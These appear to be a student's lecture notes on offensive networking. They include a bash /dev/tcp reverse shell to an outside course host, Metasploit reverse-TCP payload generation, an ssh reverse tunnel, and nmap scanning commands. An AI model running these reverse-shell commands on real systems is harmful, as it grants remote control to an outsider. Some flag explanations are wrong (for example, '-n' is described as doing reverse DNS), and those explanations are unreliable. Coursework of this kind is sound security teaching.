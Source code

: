 #9-14
Get around the lack of ```-e``` in netcat by using a **named pipe**

###/proc
It's an entirely simulated directory of unreal files to give information on current processes
###exec
As a linux command, it replaces the shell with whatever follows exec:

Dangerous Example: ```exec ls``` will ls and then kill itself upon completion. Boom goes your shell

###Bash Sockets (spawning a reverse shell entirely with bash)

    exec 5<>/dev/tcp/moxie.cs.colorado.edu/8888
    cat <&5 | while read line; do $line 2>&5 >&5; done

###Metasploit

    msf console
    use payload/linux/x86/shell/ <tab>

    use payload/linux/x86/shell/shell_reverse_tcp
    set LHOST 128.138.___.___
    set LPORT 8888
    generate -t c

    //or
    generate -t python

    //or if victim does not allow byte x31
    generate -b 31

###Symettric key cryptography
Alice and Bob (A & B) have a key and nobody else does
<br>Examples:
* AES-CBC
* 3DES-EDE-CBC
* RC4

###ssh reverse shell

    ssh -R 22:localhost:9001 dabo6422@moxie.cs.colorado.edu

#Port scanning

Most popular utility for post scanning is **nmap**

```shell
nmap -n -sL <ip_address>/<subnet>
# -n means do reverse DNS lookup
# -sL means simply list
```

##Scanning Tech
###TCP Scans
Old school port scanning: **ping**
* Also known as an ICMP echo (Internet Control Message Protocol)
```shell
nmap -sP #simply ping
```

**ACK scans** are the traditional

If you want to do a SYN Scan:
```shell
sudo nmap -Sp -PA <url>
```

**Stateful firewalls will not respond**
But if a server is not stateful, it will respond to an **ACK Scan** with a reset. That's the sign that it's actually there.

###UDP Pings
```shell
nmap -PU <port list> #default 31338
```

The reason it's such a weird port is because if you hit a normal port, it could be taking it in silently. On the other hand if you hit this weird 31338 port, it just might throw an error. That's good if it does

###ARP Scans
Even faster than TCP
* Downside is it's a LAN protocol (you can only scan machines on your LAN)
